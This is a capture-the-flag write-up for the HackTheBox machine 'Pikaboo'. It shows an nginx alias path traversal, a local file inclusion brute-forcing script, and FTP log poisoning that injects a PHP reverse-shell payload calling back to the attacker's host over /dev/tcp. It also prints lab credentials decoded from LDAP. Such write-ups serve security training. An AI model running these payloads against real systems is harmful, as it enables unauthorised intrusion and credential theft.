




# Pikaboo - HackTheBox - Writeup
Linux, 40 Base Points, Hard

## Machine


 
## TL;DR

To solve this machine, we begin by enumerating open services using ```namp``` – finding ports ```21```, ```22``` and ```80```.

***User***: By browsing to [http://pikaboo.htb/admin](http://pikaboo.htb/admin) we get 401 Unauthorized, Using ```gobuster``` we found another web page (Also returned 401 Unauthorized) [http://pikaboo.htb/admin/server-status](http://pikaboo.htb/admin/server-status), Using [Path traversal via misconfigured NGINX alias](https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/) we bypass the authorization by browsing to [http://pikaboo.htb/admin../server-status](http://pikaboo.htb/admin../server-status), From [http://pikaboo.htb/admin/server-status](http://pikaboo.htb/server-status) page we found another web page [http://pikaboo.htb/admin/server-status](http://pikaboo.htb/admin/admin_staging) which we can access to this web page like before [http://pikaboo.htb/admin../admin_staging](http://pikaboo.htb/admin../admin_staging), Found [LFI](https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/) on that page, Reading ```/var/log/vsftpd.log``` file by accessing to [http://10.10.10.249/admin../admin_staging/index.php?page=/var/log/vsftpd.log](http://10.10.10.249/admin../admin_staging/index.php?page=/var/log/vsftpd.log), [poisoning the log file](https://shahjerry33.medium.com/rce-via-lfi-log-poisoning-the-death-potion-c0831cebc16d) and we get a shell as ```www-data```.

***Root***: By reading the file ```/opt/pokeapi/config/settings.py``` we found ```ftp``` credentials, Founding intresting files on ```/usr/local/bin``` directory: ```csvupdate``` and ```csvupdate_cron```, Using perl [open() for Command Execution](https://www.shlomifish.org/lecture/Perl/Newbies/lecture4/processes/opens.html) to get a shell as ```root```.


## Pikaboo Solution

### User

Let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Pikaboo]
└──╼ $ nmap -sV -sC -oA nmap/Pikaboo 10.10.10.249
Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-25 00:21 IDT
Nmap scan report for 10.10.10.249
Host is up (0.084s latency).
Not shown: 961 closed ports, 36 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 17:e1:13:fe:66:6d:26:b6:90:68:d0:30:54:2e:e2:9f (RSA)
|   256 92:86:54:f7:cc:5a:1a:15:fe:c6:09:cc:e5:7c:0d:c3 (ECDSA)
|_  256 f4:cd:6f:3b:19:9c:cf:33:c6:6d:a5:13:6a:61:01:42 (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Pikaboo
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


```

By observing port 80 we get the following web page (Redirected to [http://forge.htb/](http://forge.htb/)):


Where [pokatdex](http://10.10.10.249/pokatdex.php) page contains:


And by clicking on [Admin](http://10.10.10.249/admin) we get:


By trying ```admin:admin``` we get 401 Unauthorized error.

By requesting to ```/admin``` page using [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater/using) we get the following response:

```HTML
HTTP/1.1 401 Unauthorized
Server: nginx/1.14.2
Date: Fri, 24 Sep 2021 23:06:49 GMT
Content-Type: text/html; charset=iso-8859-1
Content-Length: 456
Connection: close
WWW-Authenticate: Basic realm="Authentication Required"

...
```

We can see the server is ```nginx/1.14.2```.

On ```nginx``` we can get [Path traversal via misconfigured NGINX alias](https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/), The incorrect configuration of the alias could allow an attacker to read a file stored outside the target folder.

By reading the following reference [https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf) we can  bypass the ```/admin``` page by the following logic:



We need to find web pages that we can try to access them using this vuln, Let's find them using ```gobuster```:
```console
┌─[evyatar@parrot]─[/hackthebox/Pikaboo]
└──╼ $ gobuster dir -u http://pikaboo.htb/admin../ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100 -k --wildcard -s 401,403,200
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://pikaboo.htb/admin../
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/09/25 02:04:13 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 401) [Size: 456]
/javascript           (Status: 301) [Size: 314] [--> http://127.0.0.1:81/javascript/]
/server-status        (Status: 200) [Size: 5857] 
...
```

As we can see, We found the page ```/server-status``` with status ```200```, Let's try [http://10.10.10.249/admin../server-status](http://10.10.10.249/admin../server-status):



We found another page ```/admin_staging``` but if we are trying to browse to the  website [http://10.10.10.249/admin../admin_staging](http://10.10.10.249/admin../admin_staging) we are redirected to [http://127.0.0.1:81/admin_staging/](http://127.0.0.1:81/admin_staging/) that's because we are trying to access the web page which is likely to only be localhost, But if we add ```/``` at the end we can access it [http://10.10.10.249/admin../admin_staging/](http://10.10.10.249/admin../admin_staging/) we get the web page:



As we can see, The URL is [http://10.10.10.249/admin../admin_staging/index.php?page=dashboard.php](http://10.10.10.249/admin../admin_staging/index.php?page=dashboard.php), Let's try [LFI attack](https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/).

To do that, we can use the following python script:
```python
import urllib.request
import sys
import multiprocessing

lfi_path='../'
wordlist=sys.argv[1] 
base_url=sys.argv[2]
depth=int(sys.argv[3])

def path_handle(path):
    path=path.strip()
    current_path=""
    for i in range(depth):
        current_url=base_url+current_path+path
        response = urllib.request.urlopen(current_url)
        print(current_url+","+str(response.getcode())+","+str(len(response.read())))
        current_path+=lfi_path
        current_path=current_path[:-1]

with open(wordlist,'r') as f:
    pool_obj = multiprocessing.Pool(10)
    pool_obj.map(path_handle,f.readlines()
```

Run it:
```console
┌─[evyatar@parrot]─[/hackthebox/Pikaboo]
└──╼ $ python3 lfi.py ./LFI-gracefulsecurity-linux.txt http://10.10.10.249/admin../admin_staging/index.php?page= 8 > out
```
Now, By looking for response length that isn't equal to ```15349``` we get:
```console
┌─[evyatar@parrot]─[/hackthebox/Pikaboo]
└──╼ $ cat out | grep -v 15349
http://10.10.10.249/admin../admin_staging/index.php?page=/var/log/vsftpd.log,200,19803
...
```

Let's browse this link [http://10.10.10.249/admin../admin_staging/index.php?page=/var/log/vsftpd.log](http://10.10.10.249/admin../admin_staging/index.php?page=/var/log/vsftpd.log):



By replacing ```Thu``` with ```\r\nThu``` we get:
```console
Thu Jul 8 17:17:47 2021 [pid 14106] CONNECT: Client "::ffff:10.10.14.6" 
Thu Jul 8 17:17:47 2021 [pid 14106] FTP response: Client "::ffff:10.10.14.6", "220 (vsFTPd 3.0.3)" 
Thu Jul 8 17:17:49 2021 [pid 14106] FTP command: Client "::ffff:10.10.14.6", "USER anonymous" 
Thu Jul 8 17:17:49 2021 [pid 14106] [anonymous] FTP response: Client "::ffff:10.10.14.6", "331 Please specify the password." 
Thu Jul 8 17:17:49 2021 [pid 14106] [anonymous] FTP command: Client "::ffff:10.10.14.6", "PASS " 
Thu Jul 8 17:17:49 2021 [pid 14105] [anonymous] FAIL LOGIN: Client "::ffff:10.10.14.6" 
Thu Jul 8 17:17:50 2021 [pid 14106] [anonymous] FTP response: Client "::ffff:10.10.14.6", "530 Login incorrect." 
Thu Jul 8 17:17:50 2021 [pid 14106] FTP command: Client "::ffff:10.10.14.6", "SYST" 
Thu Jul 8 17:17:50 2021 [pid 14106] FTP response: Client "::ffff:10.10.14.6", "530 Please login with USER and PASS." 
Thu Jul 8 17:18:25 2021 [pid 14106] FTP command: Client "::ffff:10.10.14.6", "QUIT" 
Thu Jul 8 17:18:25 2021 [pid 14106] FTP response: Client "::ffff:10.10.14.6", "221 Goodbye." 
Thu Jul 8 17:18:26 2021 [pid 14650] CONNECT: Client "::ffff:10.10.14.6" 
Thu Jul 8 17:18:26 2021 [pid 14650] FTP response: Client "::ffff:10.10.14.6", "220 (vsFTPd 3.0.3)" 
Thu Jul 8 17:18:29 2021 [pid 14650] FTP command: Client "::ffff:10.10.14.6", "USER 0xdf" 
Thu Jul 8 17:18:31 2021 [pid 14650] FTP command: Client "::ffff:10.10.14.6", "SYST" 
Thu Jul 8 17:18:31 2021 [pid 14650] FTP response: Client "::ffff:10.10.14.6", "530 Please login with USER and PASS." 
Thu Jul 8 17:18:50 2021 [pid 14650] FTP command: Client "::ffff:10.10.14.6", "QUIT" 
Thu Jul 8 17:18:50 2021 [pid 14650] FTP response: Client "::ffff:10.10.14.6", "221 Goodbye." 
Thu Jul 8 17:18:51 2021 [pid 14652] CONNECT: Client "::ffff:10.10.14.6" 
Thu Jul 8 17:18:51 2021 [pid 14652] FTP response: Client "::ffff:10.10.14.6", "220 (vsFTPd 3.0.3)" 
Thu Jul 8 17:19:05 2021 [pid 14652] FTP command: Client "::ffff:10.10.14.6", "SYST" 
Thu Jul 8 17:19:05 2021 [pid 14652] FTP response: Client "::ffff:10.10.14.6", "530 Please login with USER and PASS." 
Thu Jul 8 17:28:56 2021 [pid 19919] CONNECT: Client "::ffff:10.10.14.14" 
Thu Jul 8 17:28:56 2021 [pid 19919] FTP response: Client "::ffff:10.10.14.14", "220 (vsFTPd 3.0.3)" 
Thu Jul 8 17:30:37 2021 [pid 21009] CONNECT: Client "::ffff:10.10.14.6" 
Thu Jul 8 17:30:37 2021 [pid 21009] FTP response: Client "::ffff:10.10.14.6", "220 (vsFTPd 3.0.3)" 
Thu Jul 8 17:30:42 2021 [pid 21009] FTP command: Client "::ffff:10.10.14.6", "USER pwnmeow" 
Thu Jul 8 17:30:42 2021 [pid 21009] [pwnmeow] FTP response: Client "::ffff:10.10.14.6", "331 Please specify the password." 
Thu Jul 8 17:30:44 2021 [pid 21009] [pwnmeow] FTP command: Client "::ffff:10.10.14.6", "PASS " 
Thu Jul 8 17:30:44 2021 [pid 21008] [pwnmeow] FAIL LOGIN: Client "::ffff:10.10.14.6" 
Thu Jul 8 17:30:45 2021 [pid 21009] [pwnmeow] FTP response: Client "::ffff:10.10.14.6", "530 Login incorrect." 
Thu Jul 8 17:30:45 2021 [pid 21009] FTP command: Client "::ffff:10.10.14.6", "SYST" 
Thu Jul 8 17:30:45 2021 [pid 21009] FTP response: Client "::ffff:10.10.14.6", "530 Please login with USER and PASS." 
Thu Jul 8 17:30:49 2021 [pid 21009] FTP command: Client "::ffff:10.10.14.6", "QUIT" 
Thu Jul 8 17:30:49 2021 [pid 21009] FTP response: Client "::ffff:10.10.14.6", "221 Goodbye." 
Thu Jul 8 17:30:50 2021 [pid 21011] CONNECT: Client "::ffff:10.10.14.6" 
Thu Jul 8 17:30:50 2021 [pid 21011] FTP response: Client "::ffff:10.10.14.6", "220 (vsFTPd 3.0.3)" 
Thu Jul 8 17:30:53 2021 [pid 21011] FTP command: Client "::ffff:10.10.14.6", "USER pwnmeow" 
Thu Jul 8 17:30:53 2021 [pid 21011] [pwnmeow] FTP response: Client "::ffff:10.10.14.6", "331 Please specify the password." 
Thu Jul 8 17:31:01 2021 [pid 21011] [pwnmeow] FTP command: Client "::ffff:10.10.14.6", "PASS " 
Thu Jul 8 17:31:01 2021 [pid 21010] [pwnmeow] OK LOGIN: Client "::ffff:10.10.14.6" 
Thu Jul 8 17:31:01 2021 [pid 21035] [pwnmeow] FTP response: Client "::ffff:10.10.14.6", "230 Login successful." 
Thu Jul 8 17:31:01 2021 [pid 21035] [pwnmeow] FTP command: Client "::ffff:10.10.14.6", "SYST" 
Thu Jul 8 17:31:01 2021 [pid 21035] [pwnmeow] FTP response: Client "::ffff:10.10.14.6", "215 UNIX Type: L8" 
Thu Jul 8 17:31:03 2021 [pid 21035] [pwnmeow] FTP command: Client "::ffff:10.10.14.6", "QUIT" 
Thu Jul 8 17:31:03 2021 [pid 21035] [pwnmeow] FTP response: Client "::ffff:10.10.14.6", "221 Goodbye." 
```

So we have the capability to read the ```vsftpd``` log file, And we have also the capability to write to this log file (using ```ftp``` login), So let's [poisoning the log file](https://shahjerry33.medium.com/rce-via-lfi-log-poisoning-the-death-potion-c0831cebc16d).

Let's try to write:
```php
<?php print("evyatar"); ?>
```

As ```ftp``` username:
```console
```console
┌─[evyatar@parrot]─[/hackthebox/Pikaboo]
└──╼ $ ftp pikaboo.htb
Connected to pikaboo.htb.
220 (vsFTPd 3.0.3)
Name (pikaboo.htb:user): <?php print("evyatar"); ?>
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> 
```

Now, Let's read again the log file using LFI:
```console
....
Sat Sep 25 21:18:38 2021 [pid 14150] CONNECT: Client "::ffff:10.10.16.9"
Sat Sep 25 21:18:38 2021 [pid 14150] FTP response: Client "::ffff:10.10.16.9", "220 (vsFTPd 3.0.3)"
Sat Sep 25 21:18:39 2021 [pid 14150] FTP command: Client "::ffff:10.10.16.9", "USER evyatar"
Sat Sep 25 21:18:39 2021 [pid 14150] [evyatar] FTP response: Client "::ffff:10.10.16.9", "331 Please specify the password."
Sat Sep 25 21:18:40 2021 [pid 14150] [evyatar] FTP command: Client "::ffff:10.10.16.9", "PASS <password>"
Sat Sep 25 21:18:40 2021 [pid 14149] [evyatar] FAIL LOGIN: Client "::ffff:10.10.16.9"
Sat Sep 25 21:18:41 2021 [pid 14150] [evyatar] FTP response: Client "::ffff:10.10.16.9", "530 Login incorrect."
Sat Sep 25 21:18:41 2021 [pid 14150] FTP command: Client "::ffff:10.10.16.9", "SYST"
Sat Sep 25 21:18:41 2021 [pid 14150] FTP response: Client "::ffff:10.10.16.9", "530 Please login with USER and PASS."
```

We can see our string ```evyatar```.

The method is known as log poisoning, as the ```PHP``` engine renders ```<?php ?>```, The next step is to get a reverse shell using that method, using that log file just like the above:
```console
┌─[evyatar@parrot]─[/hackthebox/Pikaboo]
└──╼ $ ftp pikaboo.htb
Connected to pikaboo.htb.
220 (vsFTPd 3.0.3)
Name (pikaboo.htb:user): <?php exec( "/bin/bash -c 'bash -i > /dev/tcp/10.10.14.14/4444 0>&1'") ; ?>
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> 

```

Start ```nc``` listener and read the log file again using LFI and we get a shell:
```console
┌─[evyatar@parrot]─[/hackthebox/Pikaboo]
└──╼ $ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.16.9] from pikaboo.htb [10.10.10.249] 57486
python -c 'import pty; pty.spawn("/bin/sh")'
$whoami
www-data
$cd /home/pwnmeow
$cat user.txt
9800ae11b668a1b10881248b1530d29d
```

And we get the user flag ```9800ae11b668a1b10881248b1530d29d```.

### Root

By enumerating on ```/opt/pokeapi``` we found an interesting file ```/opt/pokeapi/config/settings.py```:
```python
$ cat /opt/pokeapi/config/settings.py
cat /opt/pokeapi/config/settings.py
# Production settings
import os
from unipath import Path

PROJECT_ROOT = Path(__file__).ancestor(2)

DEBUG = False

TEMPLATE_DEBUG = DEBUG

ADMINS = (("Paul Hallett", "paulandrewhallett@gmail.com"),)

EMAIL_BACKEND = "django.core.mail.backends.console.EmailBackend"

MANAGERS = ADMINS

BASE_URL = "http://pokeapi.co"

# Hosts/domain names that are valid for this site; required if DEBUG is False
# See https://docs.djangoproject.com/en/1.5/ref/settings/#allowed-hosts
#ALLOWED_HOSTS = [".pokeapi.co", "localhost", "127.0.0.1"]
ALLOWED_HOSTS = ["*"]

TIME_ZONE = "Europe/London"

LANGUAGE_CODE = "en-gb"

SITE_ID = 1

# If you set this to False, Django will make some optimizations so as not
# to load the internationalization machinery.
USE_I18N = True

# If you set this to False, Django will not format dates, numbers and
# calendars according to the current locale.
USE_L10N = True

# If you set this to False, Django will not use timezone-aware datetimes.
USE_TZ = True

# Explicitly define test runner to avoid warning messages on test execution
TEST_RUNNER = "django.test.runner.DiscoverRunner"

SECRET_KEY = "4nksdock439320df*(^x2_scm-o$*py3e@-awu-n^hipkm%2l$sw$&2l#"

MIDDLEWARE = [
    "corsheaders.middleware.CorsMiddleware",
    "django.middleware.common.CommonMiddleware",
    "django.contrib.sessions.middleware.SessionMiddleware",
    "django.middleware.csrf.CsrfViewMiddleware",
    "django.contrib.auth.middleware.AuthenticationMiddleware",
    "django.contrib.messages.middleware.MessageMiddleware",
    "django.middleware.clickjacking.XFrameOptionsMiddleware",
]

ROOT_URLCONF = "config.urls"

WSGI_APPLICATION = "config.wsgi.application"

DATABASES = {
    "ldap": {
        "ENGINE": "ldapdb.backends.ldap",
        "NAME": "ldap:///",
        "USER": "cn=binduser,ou=users,dc=pikaboo,dc=htb",
        "PASSWORD": "J~42%W?PFHl]g",
    },
    "default": {
        "ENGINE": "django.db.backends.sqlite3",
        "NAME": "/opt/pokeapi/db.sqlite3",
    }
}

CACHES = {
    "default": {
        "BACKEND": "django_redis.cache.RedisCache",
        "LOCATION": "redis://127.0.0.1:6379/1",
        "OPTIONS": {
            "CLIENT_CLASS": "django_redis.client.DefaultClient",
        },
    }
}

SECRET_KEY = os.environ.get(
    "SECRET_KEY", "ubx+22!jbo(^x2_scm-o$*py3e@-awu-n^hipkm%2l$sw$&2l#"
)

CUSTOM_APPS = (
    "tastypie",
    "pokemon_v2",
)

INSTALLED_APPS = (
    "django.contrib.auth",
    "django.contrib.contenttypes",
    "django.contrib.sessions",
    "django.contrib.sites",
    "django.contrib.admin",
    "django.contrib.humanize",
    "corsheaders",
    "rest_framework",
    "cachalot",
) + CUSTOM_APPS


API_LIMIT_PER_PAGE = 1

TASTYPIE_DEFAULT_FORMATS = ["json"]

CORS_ORIGIN_ALLOW_ALL = True

CORS_ALLOW_METHODS = "GET"

CORS_URLS_REGEX = r"^/api/.*$"

REST_FRAMEWORK = {
    "DEFAULT_RENDERER_CLASSES": ("drf_ujson.renderers.UJSONRenderer",),
    "DEFAULT_PARSER_CLASSES": ("drf_ujson.renderers.UJSONRenderer",),
    "DEFAULT_PAGINATION_CLASS": "rest_framework.pagination.LimitOffsetPagination",
    "PAGE_SIZE": 20,
    "PAGINATE_BY": 20,
}

```

The interesting part is:
```console
...
"ldap": {
        "ENGINE": "ldapdb.backends.ldap",
        "NAME": "ldap:///",
        "USER": "cn=binduser,ou=users,dc=pikaboo,dc=htb",
        "PASSWORD": "J~42%W?PFHl]g",
    }
...
```

We can see credentials for ```ldap```, Let's use [ldapsearch](https://devconnected.com/how-to-search-ldap-using-ldapsearch-examples/) as following:
```console
ldapsearch -D"cn=binduser,ou=users,dc=pikaboo,dc=htb" -w 'J~42%W?PFHl]g' -b'dc=pikaboo,dc=htb' -LLL -h 127.0.0.1 -p 389 -s sub "(objectClass=*)"
```

And by running this we get:
```console
$ ldapsearch -D"cn=binduser,ou=users,dc=pikaboo,dc=htb" -w 'J~42%W?PFHl]g' -b'dc=pikaboo,dc=htb' -LLL -h 127.0.0.1 -p 389 -s sub "(objectClass=*)"
ldapsearch -D"cn=binduser,ou=users,dc=pikaboo,dc=htb" -w 'J~42%W?PFHl]g' -b'dc=pikaboo,dc=htb' -LLL -h 127.0.0.1 -p 389 -s sub "(objectClass=*)"
dn: dc=pikaboo,dc=htb
objectClass: domain
dc: pikaboo

dn: dc=ftp,dc=pikaboo,dc=htb
objectClass: domain
dc: ftp

dn: ou=users,dc=pikaboo,dc=htb
objectClass: organizationalUnit
objectClass: top
ou: users

dn: dc=pokeapi,dc=pikaboo,dc=htb
objectClass: domain
dc: pokeapi

dn: ou=users,dc=ftp,dc=pikaboo,dc=htb
objectClass: organizationalUnit
objectClass: top
ou: users

dn: ou=groups,dc=ftp,dc=pikaboo,dc=htb
objectClass: organizationalUnit
objectClass: top
ou: groups

dn: uid=pwnmeow,ou=users,dc=ftp,dc=pikaboo,dc=htb
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
uid: pwnmeow
cn: Pwn
sn: Meow
loginShell: /bin/bash
uidNumber: 10000
gidNumber: 10000
homeDirectory: /home/pwnmeow
userPassword:: X0cwdFQ0X0M0dGNIXyczbV80bEwhXw==

dn: cn=binduser,ou=users,dc=pikaboo,dc=htb
cn: binduser
objectClass: simpleSecurityObject
objectClass: organizationalRole
userPassword:: Sn40MiVXP1BGSGxdZw==

dn: ou=users,dc=pokeapi,dc=pikaboo,dc=htb
objectClass: organizationalUnit
objectClass: top
ou: users

dn: ou=groups,dc=pokeapi,dc=pikaboo,dc=htb
objectClass: organizationalUnit
objectClass: top
ou: groups

```

So we can see two base64 passwords: ```pwnmeow:_G0tT4_C4tcH_'3m_4lL!_``` and ```J~42%W?PFHl]g```.

Using ```pwnmeow:_G0tT4_C4tcH_'3m_4lL!_``` credentials we can login to ```ftp```:
```console
┌─[evyatar@parrot]─[/hackthebox/Pikaboo]
└──╼ $ ftp pikaboo.htb
Connected to pikaboo.htb.
220 (vsFTPd 3.0.3)
Name (pikaboo.htb:user): pwnmeow
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwx-wx---    2 ftp      ftp          4096 May 20 09:54 abilities
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 ability_changelog
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 ability_changelog_prose
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 ability_flavor_text
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 ability_names
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 ability_prose
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 berries
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 berry_firmness
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 berry_firmness_names
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 berry_flavors
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 characteristic_text
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 characteristics
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 conquest_episode_names
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 conquest_episode_warriors
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 conquest_episodes
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 conquest_kingdom_names
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 conquest_kingdoms
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 conquest_max_links
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 conquest_move_data
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 conquest_move_displacement_prose
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 conquest_move_displacements
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 conquest_move_effect_prose
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 conquest_move_effects
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 conquest_move_range_prose
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 conquest_move_ranges
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 conquest_pokemon_abilities
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 conquest_pokemon_evolution
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 conquest_pokemon_moves
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 conquest_pokemon_stats
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 conquest_stat_names
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 conquest_stats
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 conquest_transformation_pokemon
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 conquest_transformation_warriors
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 conquest_warrior_archetypes
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 conquest_warrior_names
drwx-wx---    2 ftp      ftp          4096 May 20 08:01 conquest_warrior_rank_stat_map
...
```

We can see there are a lot of directories.

By running [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) we found few intresting files on ```/usr/local/bin```:
```console
$ ls -ltr
ls -ltr
total 44
-rwxr-xr-x 1 root root  218 May 19 12:07 coverage3
-rwxr-xr-x 1 root root  218 May 19 12:07 coverage-3.7
-rwxr-xr-x 1 root root  218 May 19 12:07 coverage
-rwxr-xr-x 1 root root  220 May 19 12:07 gunicorn
-rwxr--r-- 1 root root  116 Jun  1 09:40 csvupdate_cron
-rwxr--r-- 1 root root 6444 Jun  1 10:55 csvupdate
-rwxr-xr-x 1 root root  219 Jul  6 18:55 sqlformat
-rwxr-xr-x 1 root root  125 Jul  6 18:57 django-admin.py
-rwxr-xr-x 1 root root  266 Jul  6 18:57 django-admin
